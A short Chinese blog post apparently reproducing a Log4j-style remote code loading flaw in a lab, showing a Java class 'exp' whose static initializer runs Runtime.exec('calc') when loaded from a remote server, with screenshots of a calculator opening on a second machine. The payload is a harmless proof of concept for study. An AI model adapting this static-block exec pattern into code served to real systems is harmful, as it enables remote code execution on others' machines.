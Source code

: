 ```yaml
---
title: Log漏洞测试
tags:
  - Log
categories: Log漏洞复现
abbrlink: 2620197646
date: 2021-12-11 12:52:10
description:
---
```

![liu](https://qingyun-test.oss-cn-hangzhou.aliyuncs.com/img/liu.png?x-oss-process=style/qingyun)

用来打Jar包的类，也是在别的电脑执行的





远程恶意代码实现的服务器（这个就百度怎么实现的）

![qing](https://qingyun-test.oss-cn-hangzhou.aliyuncs.com/img/qing.png?x-oss-process=style/qingyun)

恶意代码内容

```java
import java.io.IOException;

public class exp {
    static {
        try{
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"gtk-launch","firefox"};
            Process exec = rt.exec("calc");
            System.out.println("现在执行命令");
            exec.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }
}

```

就一个打开计算器



![QQ图片20211211124453](https://qingyun-test.oss-cn-hangzhou.aliyuncs.com/img/QQ图片20211211124453.jpg?x-oss-process=style/qingyun)

另外一台电脑执行打的jar包  执行了远程恶意代码  （其实也就打开了计算器）